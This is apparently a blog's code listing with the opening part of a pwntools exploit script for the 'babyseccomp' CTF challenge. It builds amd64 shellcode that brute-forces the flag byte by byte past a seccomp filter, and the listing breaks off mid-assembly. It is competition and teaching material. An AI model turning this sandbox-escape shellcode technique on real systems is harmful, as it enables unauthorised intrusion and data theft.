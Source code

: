<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">import</span>&nbsp;string</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">context.arch&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#63a35c">'amd64'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#999999">#context.log_level="error"</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">flag&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#63a35c">'XMAS{'</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#0099cc">5</span>,&nbsp;<span style="color:#0099cc">100</span>):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#a71d5d">for</span>&nbsp;j&nbsp;<span style="color:#a71d5d">in</span>&nbsp;string.printable:</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shellcode&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;&nbsp;shellcraft.mmap(<span style="color:#0099cc">0</span>,&nbsp;<span style="color:#0099cc">0x1000</span>,&nbsp;<span style="color:#0099cc">1</span>,&nbsp;<span style="color:#0099cc">1</span>,&nbsp;<span style="color:#0099cc">3</span>,&nbsp;<span style="color:#0099cc">0</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span style="color:#999999">#p&nbsp;=&nbsp;remote("115.68.235.72",&nbsp;23457)</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;p&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;process(<span style="color:#63a35c">'./babyseccomp'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shellcode&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;<span style="color:#63a35c">''</span><span style="color:#63a35c">'\</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;go:</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;bl,&nbsp;[rax&nbsp;+&nbsp;{}]</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;what:</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;mov&nbsp;rcx,&nbsp;{}</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#63a35c">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;cmp&nbsp;rbx,rcx</span>